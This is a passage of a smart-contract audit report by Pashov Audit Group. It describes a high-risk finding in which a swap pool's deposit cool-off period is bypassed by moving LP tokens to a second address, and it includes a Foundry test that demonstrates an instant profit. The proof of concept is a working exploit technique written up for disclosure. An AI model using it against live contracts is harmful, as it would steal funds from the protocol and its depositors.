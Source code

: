 **Auditor**

[Pashov Audit Group](https://twitter.com/PashovAuditGrp)

# Findings

## High Risk
### [H-01] Cool-off period for deposits in swap pools can be bypassed

**Severity**

**Impact:** Medium

**Likelihood:** High

**Description**

Deposits into the swap pool are subject to a cool-off period before being available for withdrawal via the backstop pool.

However, this restriction can be bypassed by transferring the LP tokens received from the deposit to another address.

**Proof of concept**

Add the following code to the file `BackstopPool.t.sol` and run `forge test --mt test_bypassDepositCoolOff`.

```solidity
function test_bypassDepositCoolOff() public
    changeSwapPoolCoverageTo(swapPool2, 0.2e18)
{
    uint256 initialUsdBalance = usd.balanceOf(address(this));
    uint256 initialAsset2Balance = asset2.balanceOf(address(this));

    // Setup
    vm.roll(20e6);
    address secondaryAccount = makeAddr("secondaryAccount");
    deal(secondaryAccount, 100);
    backstop.setInsuranceFee(address(swapPool2), 100);
    bytes[] memory _mockUpdateData = _makeMockPriceUpdateData(2);

    // Deposit 10 asset2 into swapPool2 and transfer LP tokens to secondary account
    (uint256 lpTokens, ) = swapPool2.deposit(10e18, 0, block.timestamp);
    swapPool2.transfer(secondaryAccount, lpTokens);

    // From secondary account, redeem LP tokens and transfer USD token to main account
    vm.startPrank(secondaryAccount);
    asset2.approve(address(swapPool2), MAX_UINT256);
    backstop.redeemSwapPoolShares{value: 2}(
        address(swapPool2),
        lpTokens,
        0,
        block.timestamp,
        _mockUpdateData
    );
    usd.transfer(address(this), usd.balanceOf(secondaryAccount));
    vm.stopPrank();

    // The result is an instant profit > 9%
    uint256 usdReceived = usd.balanceOf(address(this)) - initialUsdBalance;
    uint256 asset2Spent = initialAsset2Balance - asset2.balanceOf(address(this));
    uint256 asset2SpentInUsd = asset2Spent * ASSET2_PRICE / 1e18;
    uint256 profit = usdReceived - asset2SpentInUsd;
    assert(profit > 0.9e18);
```